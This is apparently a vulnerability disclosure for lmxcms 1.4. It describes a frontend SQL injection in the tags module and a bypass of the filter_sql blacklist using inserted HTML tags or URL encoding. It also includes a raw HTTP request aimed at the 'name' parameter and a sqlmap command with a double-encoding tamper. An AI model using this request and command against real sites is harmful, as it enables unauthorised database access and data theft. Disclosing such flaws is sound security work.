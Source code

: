 ## lmxcms1.4 Frontend SQL Injection
### Vulnerability Analysis
Tagaction class will call the p function to pre-process the SQL before processing the SQL statement, then remove the html tags in the SQL, and finally perform url decoding.

![](/images/01.png)
![](/images/02.png)
 
When processing SQL statements, the backend will first call the filter_sql method to filter the sql expectation once, by tracing the filter_sql method to find the blacklist mechanism used.

![](/images/03.png)
![](/images/04.png)

In this way, it is possible to bypass the filter_sql mechanism by inserting html tags (se<>lect) or by url encoding.

### Vulnerability recurrence
Request：
```
GET /lmxcms/index.php?m=tags&a=index&name=1 HTTP/1.1
Host: 192.168.240.132
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Sqlmap Command：
```
python3.exe .\sqlmap.py -r .\payload\req.txt --dbms="MySQL" --technique=U -v3 --tamper=chardoubleencode -p name --batch
```

The name parameter is vulnerable to injection

![](/images/05.png)
![](/images/06.png)

